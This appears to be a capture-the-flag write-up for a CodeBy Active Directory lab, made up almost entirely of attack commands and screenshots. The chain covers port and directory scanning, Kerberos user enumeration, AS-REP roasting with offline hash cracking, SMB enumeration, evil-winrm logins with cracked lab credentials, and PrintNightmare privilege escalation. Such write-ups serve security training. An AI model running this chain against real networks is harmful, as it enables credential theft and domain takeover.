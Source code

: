 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9b1a1fa1-3977-465a-936d-aabb7f6ec6b1)
```
nmap -p- 192.168.2.5 -v -sC -sV -sT
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/dc38f948-3fbc-41eb-b06d-d646b90d74f6)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c0709d19-35c3-467f-9171-a6d9ca956d2b)
```
ffuf -u http://192.168.2.5/FUZZ -w /home/kali/PayloadsAllTheThings/payloads/owasp/dirbuster/directory-list-2.3-medium.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/02645807-6241-44a2-b4be-3a669b84d2d3)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ae52dfd7-4a15-4c67-880f-f50fbd7c42b8)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b628ccdc-b505-40d4-86b4-c505a90cb525)
```
./kerbrute_linux_amd64 userenum -d codeby.cdb --dc 192.168.2.5 user.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/48a61bd2-5566-4a3b-86d6-e86e199ed03c)
```
impacket-GetNPUsers codeby.cdb/ -dc-ip 192.168.2.5 -usersfile user.txt -format hashcat -outputfile user-hashes.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3274c1ab-228c-432f-afaf-0f2b3b95b055)
```
john --wordlist=/home/kali/PayloadsAllTheThings/rockyou.txt user-hashes.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/c3dbbd25-a7cb-4df1-90cf-306ec7ee6856)
```
smbmap -u "a.fedotov" -p "PASS" -d codeby.cdb -H 192.168.2.5
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/ec7ae321-e8f1-4620-8c10-b6059add3170)
```
smbclient '//192.168.2.5/Andrey Fedotov' -U a.fedotov
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/7e7ee330-c368-4a6c-9f74-dc08b3263b32)

```
enum4linux-ng 192.168.2.5 -u 'a.fedotov' -p 'PASS'
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2c99b7f1-94f0-475d-8163-bb398f225231)
```
impacket-GetNPUsers codeby.cdb/ -dc-ip 192.168.2.5 -usersfile user.txt -format hashcat -outputfile user-hashes2.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/4e580e62-e0b0-4c19-a4e2-0c6d93dc0779)
```
john --wordlist=/home/kali/PayloadsAllTheThings/rockyou.txt user-hashes2.txt
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/961ca617-e8f4-4f80-a8ef-1b5c6ab3a47d)
```
ftp 192.168.2.5
```



```
evil-winrm -i 192.168.2.5 -u USER -p PASS
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/7c5c2b56-e8c4-4062-818f-2cb63ecd0891)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/51d9aca1-e732-4fd1-b8da-0c5079401611)

https://medium.com/@joemcfarland/printnightmare-privilege-escalation-63bc5e531960

https://github.com/calebstewart/CVE-2021-1675/blob/main/CVE-2021-1675.ps1
```
evil-winrm -i 192.168.2.5 -u o.smolkov -p Never_Forget! -s /home/kali/CodeBy/AD/Revol/sc/
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/14f9572f-edb0-4706-96b5-fad72b959159)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/72b079d3-33fe-437f-b933-abcba45012c8)
```
evil-winrm -i 192.168.2.5 -u adm1n -p P@ssw0rd
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/480dacf3-fd52-4b2c-907f-dc7e96744c1e)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/b09a9616-4848-4fd3-bd43-634c15812e51)
